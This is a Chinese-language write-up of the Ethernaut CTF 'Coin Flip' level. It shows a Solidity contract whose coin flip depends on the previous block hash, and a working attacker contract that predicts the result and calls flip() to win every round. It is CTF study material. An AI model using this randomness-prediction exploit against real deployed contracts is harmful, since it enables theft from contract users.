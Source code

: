 A-Ethernaut-CTF
------------------------

Day3 2024.09.01

Coin Flip
------------------------
題目：
This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

需要對10次，才能過關。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

想法：
1. `uint256 blockValue = uint256(blockhash(block.number - 1));` 取得前一個區塊的哈希值，並將其轉換為 uint256 型別。

2. 
```solidity
if (lastHash == blockValue) {
    revert();
}
```
如果 lashHash 與 blockValue 相同，則回滾，並消耗使用的gas。這是為了防止在同一區塊內重複進行猜測。

看起來能過掉過這段就可ㄧ控制下面的邏輯。

`block.number` 是區塊的編號，感覺這裡可以控制。

3. 因為智能合約有可擴展性的優點，看起來可以呼叫智能合約話葫蘆去取得想要的 block.number。

解題：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import { CoinFlip} from "../../src/4/CoinFlip.sol";

contract CoinFlipAttack {

    CoinFlip orgContract;
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _coinFlipAddress) {
        orgContract = CoinFlip(_coinFlipAddress);
    }

    function attack() public  {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 guess = blockValue / FACTOR;
        bool side = guess == 1 ? true : false;
        orgContract.flip(side);

  }

}
```

攻擊模式：
1. 建立一個新的智能合約，並將原本的智能合約地址傳入。
2. 透過 `blockhash(block.number - 1)` 取得前一個區塊的哈希值，並將其轉換為 uint256 型別。
3. 透過 `blockValue / FACTOR` 取得 0 或 1，並透過這個值來猜測。
4. 透過 `orgContract.flip(side)` 來進行猜測。


Attacks smart contract:
[CoinFlipAttack.sol](../A-Ethernaut-CTF/POC/src/attacks/CoinFlipAttack.sol)

POC:
[CoinFlip.t.sol](../A-Ethernaut-CTF/POC/test/4/CoinFlip.t.sol)

